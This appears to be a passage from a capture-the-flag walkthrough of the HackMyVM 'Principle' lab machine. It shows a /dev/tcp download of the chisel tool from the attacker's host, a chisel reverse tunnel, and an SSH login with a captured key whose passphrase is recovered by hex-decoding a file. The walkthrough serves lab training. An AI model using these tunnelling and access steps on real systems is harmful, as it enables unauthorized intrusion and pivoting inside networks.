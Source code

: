 ```
$ cat > chisel < /dev/tcp/10.0.0.1/443
```

We have to give execution permissions to the `chisel` binary in the [Principle][2] machine:

```
$ chmod 700 chisel
```

Now we have to setup the reverse proxy.
We will establish the `chisel` server in our host:

```
$ /chisel_1.8.1_linux_amd64 server --reverse -p 8080
```

And we start the `chisel` client in the [Principle][2] machine:

```
$ ./chisel client 10.0.0.1:8080 R:22222:127.0.0.1:3445
```

So we can connect via ssh using a private key, we need to give it the right permissions:

```
$ chmod 600 elohim_id_rsa
```

To connect to [Principle][2] via our reverse proxy we need to connect to the reverse proxy running on our host:

```
$ ssh elohim@localhost -p22222 -i elohim_id_rsa

Enter passphrase for key 'id_rsa':
```

We have to enter a passphrase.
Don't worry, rember the words of `talos`:

>he keeps the lock coded and hidden at home

This is where the `.lock` file will be useful.

The file content is: `7072696e6369706c6573`, and we know that is encoded.
It's encoded in hexadecimal, if we decode it we obtain: `principles`, and this is this passphrase.
Now we can connect via ssh to the [Principle][2] machine.

```
$ ssh elohim@localhost -p22222 -i elohim_id_rsa

Enter passphrase for key 'id_rsa':
```

We are already inside and we are `elohim`

## elohim

```
elohim@principle:~$ id
uid=1001(elohim) gid=1001(elohim) groups=1001(elohim),1002(sml)
```


[1]: https://[Kaian][1]perez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle